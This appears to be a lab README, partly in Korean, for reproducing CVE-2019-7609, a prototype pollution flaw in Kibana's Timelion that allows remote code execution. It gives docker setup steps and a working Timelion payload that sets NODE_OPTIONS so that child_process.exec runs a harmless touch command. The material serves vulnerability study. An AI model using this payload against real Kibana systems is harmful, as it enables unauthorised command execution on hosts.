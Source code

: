 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

Kibana는 Elasticsearch를 위한 오픈 소스 데이터 시각화 대시보드

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

참고 자료:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:

![](2.png)

